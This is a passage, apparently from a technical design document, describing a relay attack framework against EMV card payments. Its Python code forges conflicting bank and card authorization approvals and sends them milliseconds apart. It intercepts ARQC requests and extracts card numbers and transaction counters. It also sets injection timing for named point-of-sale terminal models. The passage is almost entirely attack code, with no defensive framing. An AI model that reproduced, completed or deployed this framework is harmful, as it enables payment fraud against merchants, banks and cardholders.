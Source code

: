 ```python
        """
        # Create conflicting auth responses
        auth1 = {'type': 'ONLINE', 'result': 'APPROVED', 'source': 'BANK'}
        auth2 = {'type': 'OFFLINE', 'result': 'APPROVED', 'source': 'CARD'}
        
        # Send both with minimal timing difference
        self.send_auth_response(auth1)
        time.sleep(0.001)
        self.send_auth_response(auth2)
        
        return True
```

## Framework Integration

### Modifications Required

#### In `relay_server` module:
```python
# Add to relay_server/attacks/state_confusion.py
class StateConfusionProcessor:
    def __init__(self, relay_core):
        self.relay_core = relay_core
        self.attack_engine = StateConfusionAttack(relay_core)
        self.timing_analyzer = TimingAnalyzer()
        
    def process_authorization_flow(self, apdu_stream):
        # Detect ARQC requests
        if self.is_arqc_request(apdu_stream):
            return self.attack_engine.initiate_state_confusion(
                pan=self.extract_pan(apdu_stream),
                atc=self.extract_atc(apdu_stream),
                original_arqc=apdu_stream
            )
        return apdu_stream
```

#### In `core_toolkit` module:
```python
# Add to core_toolkit/timing/precision_timing.py
class PrecisionTimer:
    def __init__(self):
        self.high_res_timer = time.perf_counter
        
    def calculate_injection_timing(self, terminal_type, network_latency):
        """
        Calcula timing preciso para injeção baseado no tipo de terminal
        """
        base_timing = {
            'verifone_vx520': 45,
            'ingenico_ict250': 60,
            'pax_s920': 40
        }
        
        adjustment = network_latency * 0.5  # Compensation factor
        return base_timing.get(terminal_type, 50) + adjustment
```
